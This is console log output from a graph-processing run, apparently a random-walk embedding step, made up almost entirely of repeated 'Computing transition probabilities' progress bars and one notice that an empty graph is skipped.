Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/21 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Graph 1763 is empty and will be skipped.


Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

